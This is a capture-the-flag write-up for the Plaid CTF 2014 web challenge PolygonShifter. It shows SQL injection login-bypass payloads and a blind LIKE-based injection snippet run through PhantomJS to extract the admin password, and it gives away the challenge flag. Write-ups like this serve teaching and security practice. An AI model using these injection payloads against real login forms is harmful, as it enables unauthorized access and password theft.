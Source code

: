 # Plaid CTF 2014: PolygonShifter

**Category:** Web
**Points:** 100
**Description:**

> The Plague has purchased the newest invention, _Polygon Shifter_ to protect his website. This cutting edge technology is made available by Polygon Security, and they have a demo page on their [website](http://54.204.80.192/). They claim bots can no longer attack the website protected by the Polygon Shifter. Do we need to manually bruteforce the credentials?

## Write-up

Looking into sourcecode reveals that there is a secret admin account:

```html
<div class="row">
<div class="medium-10 small-centered columns">
    <h3>To demonstrate our technology, we have a form that is protected with our solution. Humans shall pass, but bots will FAIL.</h3>
    <h3>Test account is test / test</h3>
    <!--<h3>For admin interface, admin / ???????</h3>-->
</div>
</div>
```

Let's try to login with this admin account. We don't have the credentials, so we'll try some SQL injection instead.

Username: `admin' OR 'a'='a`
Password: `random`

Great, we can get in!

We are welcomed with the following message: 
`Hello, admin!! My password is the flag!`

Seems like we need to find the password with SQL injection. Let's peek into the sourcecode some more:

```html
<h4 class="product-header">A friendly login form; not so friendly for bots!</h4>
<div class="medium-11 small-centered columns">
    <form action="/P0zxeNVpdjH6myRHaWVS" method="POST">
        <label for="" style="text-align:left;">Username</label>
        <input type="text" id="6lyNestBnznos6FxGtGD" name="dVURHUzXGy69u5thdZY0">
        <label for="bFixmywlQhbkX1uC1oI2" style="text-align:left;">Password</label>
        <input type="password" id="bFixmywlQhbkX1uC1oI2" name="SU8IPPqzwozVlQzuaWSA">
        <input class="primary large" type="submit" value="Login">
    </form>
</div>
```

Okay, it seems that we cannot use the id's or names for these fields to automate the process. No problem, we don't really need those. The source code doesn't seem to have any more input fields, so we can just use the first and second input field to put our username and password in. 

```js
var arr = document.getElementsByTagName("input");
arr[0].value = "admin";
arr[1].value = "' or (password LIKE '%a%') and 1='1";
```

If we successfully log in as admin with these values, we know that our query succeeded.

For the full script, see [the source](./client.js) (run the script as `phantomjs client.js "(password like 'a%')"`).

After some testing, we find that the flag is `n0b0t5_C4n_bYpa5s_p0lYm0rph1Sm`.

## Other write-ups

* <http://balidani.blogspot.com/2014/04/plaidctf-2014-polygonshifter-writeup.html>
* <https://ucs.fbi.h-da.de/writeup-plaidctf-2014-polygonshifter/>
